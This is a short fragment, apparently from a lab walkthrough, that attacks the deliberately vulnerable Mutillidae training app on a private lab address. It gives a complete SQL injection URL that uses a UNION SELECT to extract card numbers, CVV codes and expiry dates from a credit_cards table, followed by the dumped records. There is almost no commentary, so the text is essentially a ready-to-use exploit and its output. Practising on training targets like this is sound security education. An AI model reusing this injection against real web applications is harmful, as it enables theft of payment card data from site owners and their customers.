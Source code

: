 ```
http://10.0.2.5/mutillidae/index.php?page=user-info.php&username=noone%27%20union%20select%201,ccnumber,ccv,expiration,5%20from%20credit_cards%23&password=noone&user-info-php-submit-button=View+Account+Details
```

* The display output.

```
Username=4444111122223333
Password=745
Signature=2012-03-01

Username=7746536337776330
Password=722
Signature=2015-04-01

Username=8242325748474749
Password=461
Signature=2016-03-01

Username=7725653200487633
Password=230
Signature=2017-06-01

Username=1234567812345678
Password=627
Signature=2018-11-01
```


